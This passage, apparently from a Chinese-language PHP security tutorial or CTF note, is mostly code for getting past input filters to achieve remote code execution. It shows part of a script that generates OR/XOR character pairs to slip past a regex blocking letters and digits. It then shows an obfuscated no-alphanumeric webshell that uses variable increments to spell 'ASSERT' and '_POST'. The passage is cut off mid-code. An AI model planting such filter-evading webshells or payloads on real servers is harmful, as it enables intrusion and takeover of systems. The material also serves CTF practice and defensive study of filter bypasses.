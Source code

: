 ```php
                }else{
                    $par1 = "%".$hex_i;
                    $par2 = '%'.$hex_j;
                    $res = '';
                    if ($mode==1){
                        $res = orRce($par1, $par2);
                    }else if ($mode==2){
                        $res = xorRce($par1, $par2);
                    }
                    if (ord($res)>=32&ord($res)<=126){
                        $contents=$contents.$res." ".$par1." ".$par2."\n";
                    }
                }
            }
        }
        fwrite($myfile,$contents);
        fclose($myfile);
    }else{
        negateRce();
    }
}
generate(2,'/[a-z,A-Z,0-9>\?]/');



```

也可以完全利用`$_`模式自增自减来构造无字母数字的webshell

见：https://www.leavesongs.com/PENETRATION/webshell-without-alphanum.html

```
<?php
$_=[];
$_=@"$_"; // $_='Array';
$_=$_['!'=='@']; // $_=$_[0];
$___=$_; // A
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;
$___.=$__; // S
$___.=$__; // S
$__=$_;
$__++;$__++;$__++;$__++; // E 
$___.=$__;
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // R
$___.=$__;
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // T
$___.=$__;

$____='_';
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // P
$____.=$__;
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // O
$____.=$__;
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // S
```
